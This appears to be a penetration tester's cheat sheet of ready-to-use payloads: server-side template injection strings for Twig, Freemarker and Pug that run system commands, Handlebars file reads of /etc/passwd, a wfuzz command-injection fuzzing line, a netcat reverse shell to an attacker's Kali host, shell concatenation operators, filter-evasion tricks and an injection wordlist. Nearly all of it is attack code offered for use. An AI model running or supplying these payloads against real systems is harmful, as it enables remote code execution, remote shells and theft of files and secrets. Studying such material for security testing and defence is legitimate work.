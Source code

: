 <b>Twig - feel free to use other php functions like exec instead of system
```
{{[0]|reduce('system','whoami')}}

```
<b>Freemarker 
```
${"freemarker.template.utility.Execute"?new()("whoami")}

```

<b>Pug 
```
- var require = global.process.mainModule.require
= require('child_process').spawnSync('whoami').stdou
```
or 
```
- var require = global.process.mainModule.require

= require('child_process').execSync('whoami')
```

<b>Jinja - No RCE Payloads discussed in the materials

`{{config|pprint}}` will return sensitive data relating to a jinja project  

<b>Mustache / Handlebars - does not natively support any sort of RCE 
Can iterate over filesystem with the following
```
{{#each (readdir "/etc")}}

	{{this}}

{{/each}}
```
Or read a single file via `{{read "/etc/passwd"}}`

### Command Injection
<b>Note: fuzz all params for this, every single time

Fuzzing
`wfuzz -c -z file,"/usr/share/payloadsallthethings/Command Injection/Intruder/command-execution-unix.txt" --sc 200 "$URL/index.php?parameter=idFUZZ"`

"Safest" reverse shell
```
/bin/nc -nv [kali-ip] 4242 -e /bin/bash
```
[All Reverse Shell Options](https://gtfobins.github.io/#+reverse%20shell)

Command Concatenation 
```
&&
||
`cmd`
$(cmd)
;cmd
```
Input sanitization dodging
```
wh$()oami
```
"Bogus cmd injection wordlist for fuzzing"
```
bogus
;id
|id
`id`
i$()d
```